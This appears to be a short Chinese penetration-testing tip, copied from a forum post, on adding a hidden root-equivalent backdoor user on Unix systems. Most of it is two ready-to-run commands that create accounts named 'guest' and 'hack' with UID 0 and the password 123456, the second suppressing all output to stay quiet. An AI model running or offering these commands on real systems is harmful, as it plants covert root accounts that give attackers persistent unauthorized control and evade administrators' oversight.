

# uid 0用户添加

> 原文：[https://www.zhihuifly.com/t/topic/3501](https://www.zhihuifly.com/t/topic/3501)

## uid 0用户添加

在 Unix 体系下，UID 为 0 就是 root 权限。所以渗透的时候可以添加一个 UID 为 0 的用户作为后门。

```
useradd -p `openssl passwd 123456`  -o -u 0 guest
/usr/sbin/useradd -o -u 0 hack &>/dev/null && echo hack:123456 | /usr/sbin/chpasswd &>/dev/null 
```

